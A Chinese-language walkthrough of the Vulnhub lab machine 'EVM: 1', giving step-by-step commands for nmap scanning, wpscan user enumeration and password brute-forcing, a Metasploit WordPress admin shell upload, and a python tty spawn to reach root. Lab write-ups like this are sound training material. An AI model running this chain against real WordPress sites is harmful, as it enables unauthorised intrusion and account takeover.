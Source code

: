 ```yaml
---
title: "EVM: 1-Vulnhub Walkthrough"
categories: [ "安全技术" ]
tags: [ "vulnhub","靶机","walkthrough" ]
draft: false
slug: "505"
date: "2020-02-14 10:40:00"
---
```


[靶机地址][1]

## 工具及漏洞信息

- netdiscover
- nmap
- gobuster
- wpscan

## 0x01 信息收集

### 扫描靶机

`netdiscover`的`-r`参数扫描`192.168.1.0/16`结果如下：

![][2]

`nmap`扫描主机及端口信息：

```
nmap -sS -A -n -T4 -p- 192.168.1.7
```

![][3]

### 扫描漏洞

这里使用了`nmap`的`vulscan`脚本：

```
cd /usr/share/nmap/scripts/
git clone https://github.com/vulnersCom/nmap-vulners
nmap --script nmap-vulners -sV 192.168.1.7
```

![][4]

看起来很多，测试了最新几个 CVE，均无法利用

### 扫描路径

`gobuster`扫描路径：

```
gobuster dir -u http://192.168.1.7 -s 200,301,302 -t 50 -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

这里使用的字典是`kali`自带的，如果没有可以通过`apt-get install wordlists -y`安装

![][5]

打开主页:

![][6]

提示我们`wordpress`目录易受攻击，于是我们打开看看

## 0x02 普通用户 getshell

这里我也遇到了大佬们说的虽然靶机信息说的支持`DHCP`

但是访问`靶机ip/wordpress`会跳转到`192.168.56.103`

其实我们不访问`wordpress`界面也能进行下去，我这里就不折腾了

先给`wpscan`[申请][7]一个`wpvulnhub`的`API`，然后扫描:

```
wpscan --url http://192.168.1.7/wordpress/ -e at -e ap -e u --api-token xxxxxxxxxxxx
```

- -e at:扫描所有主题
- -e ap:扫描所有插件
- -e u:扫描用户

扫描到 4 个可能的漏洞：

![][8]

扫描出一个用户`c0rrupt3d_brain`:

![][9]

扫描出用户就可以接着爆破密码，`kali`自带字典`/usr/share/wordlists/rockyou.txt`

如果没有可以从这里[下载][10]

```
wpscan --url http://192.168.1.7/wordpress/ -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt -t 50
```

爆破实在太慢了，得到密码为：`24992499`，账户密码都得到了，上`msf`:

```
use exploit/unix/webapp/wp_admin_shell_upload
set rhosts 192.168.1.7
set targeturi /wordpress
set username c0rrupt3d_brain
set password 24992499
run
```

![][11]

获得的`meterpreter`会话：

![][12]

## 0x03 提权 root

可以直接在`meterpreter`查看目录文件：

![][13]

成功获取到`root`的密码`willy26`，切换账号登录

进入`shell`，发现是老朋友“无输出”环境，使用`python`获取`tty`:

```
shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

![][14]

然后切换至`root`账户并成功获取`flag`:

![][15]

参考文章：

- [Vulhub 系列：EVM 1][16]
- [EVM: 1 Vulnhub Walkthrough][17]
- [如何利用 NSE 检测 CVE 漏洞][18]
- [VulnHub 靶机系列实战教程][19]

本文完。

[1]: https://www.vulnhub.com/entry/evm-1,391/
[2]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_104215.png
[3]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_104711.png
[4]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_152451.png
[5]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_112148.png
[6]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_112215.png
[7]: https://wpvulndb.com/users/sign_up
[8]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_142613.png
[9]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_142704.png
[10]: http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2
[11]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_153051.png
[12]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_153130.png
[13]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_153650.png
[14]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_153848.png
[15]: https://img.soapffz.com/archives_img/2020/02/14/archives_20200214_154001.png
[16]: https://mp.weixin.qq.com/s/hbTDgONOdTQGbftffEwrEQ
[17]: https://www.hackingarticles.in/evm-1-vulnhub-walkthrough/
[18]: https://www.freebuf.com/sectool/161664.html
[19]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ